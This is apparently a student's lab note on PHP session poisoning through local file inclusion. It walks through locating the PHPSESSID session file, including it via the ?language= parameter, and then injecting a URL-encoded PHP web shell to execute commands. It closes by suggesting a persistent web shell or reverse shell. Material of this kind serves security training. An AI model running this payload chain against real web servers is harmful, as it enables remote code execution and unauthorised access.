




PHP Session Poisoning
PHP Session Poisoning
Usually PHP web applications utilize
PHPSESSID cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies.
These details about the session are stored in session files on the back-end, and saved in:
◇ Linux →
/var/lib/php/sessions/ ◇ Windows →
C:\Windows\Temp\The name of the file that contains our user's data matches the name of our
PHPSESSID cookie with the
sess_ prefix.
example: if the value of
PHPSESSID cookie is set to
tjjnp54mgt13ckf85gplg2khui, then it's location on disk would be
/var/lib/php/sessions/sess_tjjnp54mgt13ckf85gplg2khui-------------
1. Inspect if we have a PHPSESSID cookie set to our session
◇ In Firefox: Inspect (F12) → Storage → Cookies
2. Since our
PHPSESSID cookie value is set to
tjjnp54mgt13ckf85gplg2khui, it should be stored at
/var/lib/php/sessions/sess_tjjnp54mgt13ckf85gplg2khui Include this session file through the LFI and view its contents:
http://46.101.61.42:30915/index.php?language=/var/lib/php/sessions/sess_tjjnp54mgt13ckf85gplg2khui
The session file contains two values in this example:
▪
selected_language → shows the page “en.php” of the selected language
- Under our control, as we can control it through the
?language= parameter
▪ preference → shows the selected language “English”
- Not under our control because we did not specify it anywhere
-------------
3. Check if we can set the value of page to a custom value (example: for
language parameter) and see if it changes in the session file.
http://46.101.61.42:30915/index.php?language=session_poisoned_by_daniele
4. Like point 2 check the values of the session file if it changed
http://46.101.61.42:30915//index.php?language=/var/lib/php/sessions/sess_k8hmi12d9nlkrchsmda0gnqhoj
the session file contains
session_poisoned_by_daniele instead of
es.php, which confirms our ability to control the value of
selected_language in the session file
-------------
5. Perform poisoning of the session file by writing PHP code int it (Like point 1 and 3). We can write a basic PHP web shell by changing the
?language= parameter to a URL encoded web shell
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
6. Like point 2 and 4 we LFI the session file.
Then use
&cmd to execute a commands
  -------------
7. use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.